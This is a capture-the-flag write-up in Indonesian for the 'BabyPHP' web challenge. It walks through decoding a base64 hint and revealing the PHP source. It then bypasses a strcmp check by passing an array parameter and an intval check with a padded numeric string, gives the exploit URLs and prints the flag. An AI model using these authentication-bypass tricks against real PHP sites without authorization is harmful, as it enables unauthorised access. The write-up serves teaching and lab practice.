


# BabyPHP
**Category:** web <br>
**Point:** 300

> Do you know about PhP?
> 
> Challenge URL- [Link Here](http://sec-army.ml/babyphp/babyphp.php)
> 
> Author: kal1ya

---

Pertama, kita perlu _decode_ cipher menggunakan base64.
```console
┌─[haz@haz]─[babyphp_COMPLETE]
└──╼ $echo Jycuam9pbihjaHIob3JkKGkpXjkwKSAgZm9yIGkgaW4gJyk/ND56PT8ueig/Ky8/KS56LykzND16LDM/LSk1Lyg5P3oqOyg7Nz8uPygnKQ== | base64 -d
''.join(chr(ord(i)^90)  for i in ')?4>z=?.z(?+/?).z/)34=z,3?-)5/(9?z*;(;7?.?(')
```

Hasil dari decoding adalah kode dalam bahasa _python_, untuk mengetahuinya kita jalankan dengan perintah `python`.
```console
┌─[haz@haz]─[babyphp_COMPLETE]
└──╼ $python -c "print ''.join(chr(ord(i)^90)  for i in ')?4>z=?.z(?+/?).z/)34=z,3?-)5/(9?z*;(;7?.?(')"
send get request using viewsource parameter
```

Dari sini kita diberi sebuah clue untuk mengakses website tadi dengan menggunakan parameter `viewsource`. Kita coba akses https://sec-army.ml/babyphp/babyphp.php?viewsource=true.

```php
<?php
 
include('flag_bb.php');
 
$msg = "Jycuam9pbihjaHIob3JkKGkpXjkwKSAgZm9yIGkgaW4gJyk/ND56PT8ueig/Ky8/KS56LykzND16LDM/LSk1Lyg5P3oqOyg7Nz8uPygnKQ==";

if(!isset($_GET['viewsource']))
{
    die($msg);
}
 
echo "<h2>s3cur3 PHP</h2>";
echo "Hack your way to the flag (^_^)<br><br>";

highlight_file(__FILE__);
 
if(!isset($_GET['key']))
{
    die("Bye bye hacker");
}
 
if((strcmp($_GET['key'],$key)))
{
    die("Gimme key to the door first!!!");
}
 
echo "Thanks for the key :P<br><br>";
 
if(!isset($_GET['secret']))
{
    die("Bye bye hacker");
}
 
$_p = 1337;
$_l = 13;
 
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
 
if($l !== $_l || $_i !== $_p)
{
    die("System Failure Detected...");
}
 
echo "<h3>Yaaay...you have breached the most s3cur3 PHP code</h3>";
echo "<h3>Here is your flag: ⚑ </h3>";
 
echo "<!--$flag-->";
 
?>
```

Disini, kita mulai melakukan eksploitasi pada input yang ada.

---

Parameter kedua adalah `key`, yang dimana parameter ini dicocokkan dengan menggunakan fungsi _prebuilt_ PHP yaitu `strcmp` yang dicocokkan dengan variabel `$key`. Kita bahkan tidak tahu apa isi di dalam variabel `$key`.

Kita bisa bypass parameter `key` dari kelemahan fungsi `strcmp`. Jika saya memasukkan nilai array kosong pada `key` maka nilainya akan `NULL`. Pada PHP, pengecekan array kosong akan bernilai **TRUE**.

Kita akses menggunakan parameter berikut :
```
https://sec-army.ml/babyphp/babyphp.php?viewsource=true&key[]=yes
```

Pesan menunjukkan `Thanks for the key :P` yang artinya parameter `key` berhasil di-_bypass_.

---

Parameter ketiga adalah `secret`.

```php
$_p = 1337;
$_l = 13;
 
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
 
if($l !== $_l || $_i !== $_p)
{
    die("System Failure Detected...");
}
```

Program melakukan pengecekan panjang string dari `secret` dengan angka 13, kemudian mengecek nilai integer dari `secret` dengan angka 1337. Setelah memakan waktu, ternyata saya sadar bahwa fungsi `intval()` bisa dilakukan _bypass_. Perhatikan percobaan saya berikut :



Dari percobaan ini kita tahu bahwa fungsi `intval()` mengambil nilai integer dari bagian depan string saja, jika setelahnya ada karakter bukan angka maka akan diabaikan.

Kelemahan ini bisa kita pakai untuk membuat panjang string (nilai `$l`) menjadi 13 karakter dan nilai integernya tetap 1337.

```
secret = "1337aaaaaaaaa"
```

Kita gabungkan dengan parameter sebelumnya
```
https://sec-army.ml/babyphp/babyphp.php?viewsource=true&key[]=yes&secret=1337aaaaaaaaa
```

Dannn ternyata berhasil. Untuk melihat flag-nya bisa dengan view-source.



python exploit : [exploit.py](./exploit.py) <br>
shell exploit : [exploit.sh](./exploit.sh)


flag : `secarmy{php_15_3xpl017abl3_i5nt'17!!}`